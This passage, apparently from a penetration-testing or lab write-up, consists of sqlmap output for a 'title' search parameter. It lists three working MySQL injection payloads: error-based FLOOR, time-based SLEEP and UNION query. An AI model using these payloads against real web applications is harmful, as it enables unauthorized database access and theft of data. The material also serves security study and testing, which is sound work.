 ![sqlmap](assets/image-20230504192432292.png)

```bash
---
Parameter: title (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: title=hacking' AND (SELECT 1819 FROM(SELECT COUNT(*),CONCAT(0x716a767171,(SELECT (ELT(1819=1819,1))),0x7171707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'bLrY'='bLrY&action=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=hacking' AND (SELECT 1664 FROM (SELECT(SLEEP(5)))MSwT) AND 'jFDG'='jFDG&action=search

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: title=hacking' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716a767171,0x7379784e74504d4e76744b6e4c524b4e516a4f4f7878676a51734e6d4c744d547450424844474f76,0x7171707071),NULL,NULL-- -&action=search
---
```
